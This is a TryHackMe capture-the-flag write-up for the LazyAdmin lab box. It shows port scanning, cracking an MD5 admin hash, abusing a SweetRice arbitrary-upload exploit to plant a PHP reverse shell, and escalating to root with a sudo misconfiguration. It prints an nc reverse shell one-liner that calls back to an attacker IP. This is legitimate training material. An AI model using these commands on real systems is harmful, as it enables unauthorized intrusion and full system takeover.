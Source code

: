 # TryHackMe
------------------------------------
### IP: 10.10.97.171
### Name: LazyAdmin
### Difficulty: Easy
--------------------------------------------

lazyadmin.jpeg

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.183.91
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-13 10:23 CDT
Nmap scan report for 10.10.183.91
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.74 seconds
```

Navigating to port 80 we find an apache landing page.

Kicking off some directory fuzzing we find a `/content` endpoint:

lazyadmin_dirs.png

Checking it out we see it is running Sweet Rice:

lazyadmin_sr.png

Navigating to http://10.10.183.91/content/as/ we find the sign-in page:

lazyadmin_signin.png

Looking back at our directory scanning, we find a `/inc` page, and in that directory we find a mysql backup file:

lazyadmin_backup.png

Taking a look at the file we find the manager's password hash:

lazyadmin_hash.png

This appears to be MD5, so lets crack it using Hashcat:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt -m 0  
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

42f749ade7f9e195bf475f37a44cafcb:Password123              
                                                          
Session..........: hashcat
Status...........: Cracked
```

Nice, we can now login with `manager:Password123`. 

lazyadmin_in.png

Looking for exploits for version 1.5.1 I find this arbitrary upload vulnerability: https://www.exploit-db.com/exploits/40716

Essentially the exploit is just logging in and uploading a PHP file, and then giving us the URL we can find the attachment at:

```python
<SNIP>
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass 
```

Lets give it a shot.

### Exploitation

First I'll grab a copy of PentestMonkey's php_reverse_shell.php and rename it to shell.php:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ mv php-reverse-shell.php shell.php5                   
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ subl shell.php5   
```

Note: There is likely some file blacklisting going on, so it's important to update the extension to .php5, rather than just .php

I'll then open it up and change the address I'll be listening on:

lazyadmin_script_update.png

Next I'll use the exploit to upload the file:

lazyadmin_exploit1.png

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.0.125] from (UNKNOWN) [10.10.183.91] 43616
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:11:19 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
THM-Chal
```

I can then grab the user.txt flag:

lazyadmin_user_flag.png

### Privilege Escalation

Running `sudo -l` to see what we can do with elevated permissions, we find we can execute a perl script as root:

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Digging a bit deeper, we see we can't modify backup.pl directly, but the script calls another script, copy.sh,  which we do have write access over. And oddly enough that script is a reverse shell one liner. So we should just be able to update copy.sh to our IP address, execute backup.pl with sudo, and catch a reverse shell as root.

lazyadmin_why.png

Update /etc/copy.sh
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.0.125 5554 >/tmp/f" > /etc/copy.sh
```

Set up a listener and execute backup.pl with sudo:
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```

And we catch a shell as root where we can grab the final flag:

lazyadmin_root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------